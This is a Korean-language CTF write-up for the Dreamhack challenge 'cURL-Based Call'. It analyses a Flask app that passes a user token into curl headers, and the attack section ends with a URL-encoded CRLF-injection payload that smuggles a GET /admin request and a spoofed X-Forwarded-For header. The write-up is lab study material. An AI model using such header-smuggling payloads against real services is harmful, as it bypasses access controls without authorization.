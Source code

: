 ```yaml
---
title: cURL-Based Call
author: heogi
date: 2024-10-27
categories:
  - CTF
  - Dreamhack
tags:
  - web
comments: true
---
```

## 1. Description
curl 명령어를 기반으로 백엔드 서비스의 API를 호출하는 웹 서비스입니다.  
백엔드 서비스의 GET /admin 엔드포인트를 통해 플래그를 얻을 수 있습니다.
서비스의 취약점을 찾고 익스플로잇하여 플래그를 획득하세요!
플래그 형식은 DH{...} 입니다.

## 2. Analysis
curl 기반으로 API 기능을 구현한 웹 페이지이다.
웹앱을 통해 backend 서버에 /admin 을 호출하여 Flag를 획득할 수 있다.

![](../assets/img/Pasted%20image%2020241028082030.png)

호출할 수 있는 기능은 아래 4가지이다.
* `create`
* `read`
* `update`
* `delete`

각각 아래 subprocess로 생성된 curl 명령을 통해 backend에 API를 호출한다.

```python
def curl_backend_api(path, method, client_host, token=None, data=None):
	try:
		args = [
			'/usr/bin/curl', f'{BACKEND_BASE_URL}{path}',
			'-H', f'Simple-Token: {token}',
			'-H', f'X-Forwarded-For: {client_host}',
			'-H', 'Content-Type: application/json',
			'-X', method,
			'--ignore-content-length',
			'--max-time', '0.3',
			'-d', json.dumps(data) if data else ''
		]
		res = subprocess.run(args, capture_output=True)
		return res.stdout.decode()
	except:
		return None
```

각 요청에는 `/auth` API를 통해 발급되는`token` 값을 포함하여 요청한 클라이언트를 구분한다.
이는 위 curl 요청을 보내는 `curl_backend_api`에서 `Simple-Token: {token}`으로 구현되어있다.

아래는 `create` 함수의 구현이다.
`-d` 옵션을 통해 curl에 삽입되는 data를 입력받으며, `request.remote_addr`을 통해 클라이언트의 IP를 식별한다.

```python
@app.route('/create', methods=['POST'])
def post_create():
	title = request.form.get('title')
	content = request.form.get('content')
	author = request.form.get('author')
	
	if not isinstance(title, str) \
			or not isinstance(content, str) \
			or not isinstance(author, str):
		abort(400)

	data = {'title': title, 'content': content, 'author': author}
	res = curl_backend_api('/posts', POST, request.remote_addr, g.simple_token, data)
	
	if res is None:
		abort(400)

	return render_template('/api_result.html', simple_token=g.simple_token, res=beautify(res))
```

아래는 `/admin` 함수의 구현이다.
`X-Forwarded-For` Header를 통해 클라이언트 IP를 식별하여, IP가 `127.0.0.1`이 아닐경우 호출이 불가하도록 구현되어있다.

```python
@app.get('/admin')
async def get_admin(request: Request):
	x_forwarded_for = request.headers.get('X-Forwarded-For')
	if x_forwarded_for != '127.0.0.1':
		return JSONResponse(status_code=401, content=None)
	return {'message': FLAG}
```

## 3. Attack
`curl_backend_api` 함수의 `token` 변수는 사용자가 조작이 가능하며, 입력 값에 대한 제어가 없어 CRLF(`\r\n`) Injection 공격에 취약하다.
이를 통해 `X-Forwarded-For` 헤더를 추가로 삽입하는것이 가능하며, 새로운 `HTTP Request Line` 을 추가하여 요청하는것도 가능하다.

`GET /admin HTTP/1.1` 를 삽입하여 웹 앱에서 backend로 `/admin` 요청을 보내고
`X-Forwarded-For` 헤더를 삽입하여 `if x_forwarded_for != '127.0.0.1':` 구문을 우회한다.
`create`, `read` , `update` 요청은 backend의 response를 `json.load(res)` 를 통해 json 형태가 가공되기 때문에 json 형태가 아닌 값으로 요청 시 오류가 발생한다.
하지만 `delete` 는 response를 `json.loads(res)` 를 거치지 않고 그대로 출력하여 `delete`를 통해 요청을 보낸다.
또한 해당 요청도 마찬가지로 `token` 값이 필요하여 추가하면 아래와 같은 요청이 완성된다.

```http
POST /delete?simple_token=b32ebc7d96a42f3a065534fd1943619f2ed7158466230d844e9575b67bb4c98e%0d%0a%0d%0aGET%20/admin%20HTTP/1.1%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aSimple-Token:%20b32ebc7d96a42f3a065534fd1943619f2ed7158466230d844e9575b67bb4c98e
```

